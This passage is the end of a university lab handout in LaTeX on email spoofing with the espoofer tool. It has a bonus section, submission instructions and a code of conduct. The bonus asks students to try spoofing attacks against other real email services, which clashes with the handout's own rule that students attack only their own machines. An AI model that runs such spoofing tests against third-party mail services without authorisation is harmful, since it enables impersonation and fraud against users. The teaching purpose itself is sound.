  \item 
\includegraphics[width=0.88\columnwidth]{a2.png}
  \item 
\includegraphics[width=0.88\columnwidth]{a3.png}
\end{itemize}

\end{enumerate}

%In this assignment, we would like you to play with various one-way hash algorithms. Since \texttt{openssl} (your VM should have installed it) has a suite of the cryptography algorithm implementations, let's directly use the implementation from this tool. You can use the following \texttt{openssl dgst} command to generate the hash value for a file. To see the manuals, you can type {\tt man openssl} and {\tt man dgst}.


%Please replace the \textit{dgsttype} with a specific one-way hash algorithm, such as \textit{-md5, -sha1, -sha256},etc. In this assignment, you should try at least 3 different algorithms, and describe your observations (write down in your report). You can find the supported one-way hash algorithms by typing {\tt man openssl}.

\section{Bonus (5 points): Use \espoofer to test OTHER email services and see if the attacks work against them. }


Practice the knowledge you have learnt from attacking fastmail server, to find any other email services that are subject to the spoofing attack. %Report your analysis of the email implementation. Discuss its security.
If you find any such vulnerable servers, please report to us and you will obtain 5 points bonus. You can also try the server mode of \espoofer if you can setup an email server on your own. Particularly, we list a few email services that have been patched to prevent the exploit from \espoofer (bascially they are no longer vulnerable).

\begin{itemize}
\item Gmail;
\item Outlook;
\item Zoho.com;
\item Protonmail.com;
  \begin{itemize}
    \item Reported to Protonmail about vulnerability related with server\_a19.
  \end{itemize}
\item Mail.ru;
\item Sina.com;
  \begin{itemize}
    \item Verified by Dr. Lin.
  \end{itemize}
\end{itemize}

\section{Submitting Your Lab Report}

Please write a report describing how you solve each of the problem above, and submit at CARMEN.

\section{Code of Conduct}

These labs are intended for educational purposes only, to provide a safe and legal means to gain an understanding of security by understanding threats and vulnerabilities. They are not intended for (and are not to be used for) any purposes other than for education.

Some of these labs are based on existing exploits, and students are to exploit their own virtual machines ONLY. Do not try them outside your personal devices. Use of anything learned in, during, or resulting from this class that is in any manner illegal, unauthorized, or unethical is forbidden. There are serious consequences for illegal computer hacking. Any student who violates the rules is subject to legal action, will take sole responsibility of his/her actions, and cannot hold any claim on the responsibility of the faculty, staff, or the university. Students who violate these conditions of the labs will get a failing grade in the class and may be subject to legal action.
Do not incorporate or implement viruses, worms, spyware and/or Trojan horses in ANY of these labs. Only the tools and resources specified in the given lab may be used. Any student who exploits fellow student's accounts or gains the solutions to the labs by means other than specified is engaging in academic misconduct. Academic misconduct will be treated seriously.

\end{document}